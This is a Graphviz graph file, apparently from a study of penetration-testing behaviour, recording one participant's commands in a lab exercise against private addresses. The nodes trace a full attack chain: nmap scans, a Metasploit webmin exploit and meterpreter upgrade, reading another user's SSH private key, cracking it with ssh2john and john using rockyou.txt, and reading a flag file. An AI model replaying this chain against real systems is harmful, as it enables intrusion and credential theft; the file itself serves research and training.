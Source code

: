 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="nmap -p- 172.18.1.5 V0 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 V0 "]
	5 [label="msfconsole A2 M2 "]
	7 [label="search webmin A3 M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options A5 M5 "]
	12 [label="set RHOSTS 172.18.1.5 A6 M6 "]
	13 [label="show options V5 "]
	14 [label="exploit A8 M8 "]
	17 [label="set LHOST 10.1.135.83 V6 "]
	18 [label="exploit V8 "]
	19 [label="search shell_to_meterpreter A3 "]
	20 [label="use 0 A4 "]
	22 [label="show options V5 "]
	23 [label="set SESSION 2 A6 "]
	24 [label="run V8 "]
	28 [label="search webmin V3 "]
	29 [label="use 3 A4 "]
	30 [label="exploit V8 "]
	36 [label="show options V5 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub A12 M12 A17 "]
	45 [label="ssh eve@172.18.1.5 A16 M16 "]
	47 [label="ssh eve@10.1.17.4 V16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh A16 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa V12 "]
	53 [label="ls A10 "]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa V16 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa V16 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' V16 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key V16 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 A16 "]
	61 [label="./ssh2john.py A14 A16 "]
	62 [label="./ssh2john.py key > crack.txt A14 A16 "]
	63 [label="cat crack.txt A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	72 [label="ls A10 "]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt A14 M14 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	78 [label="ls A10 "]
	80 [label="ls A10 "]
	81 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 72 [constraint=false]
	72 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 78 [constraint=false]
	78 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
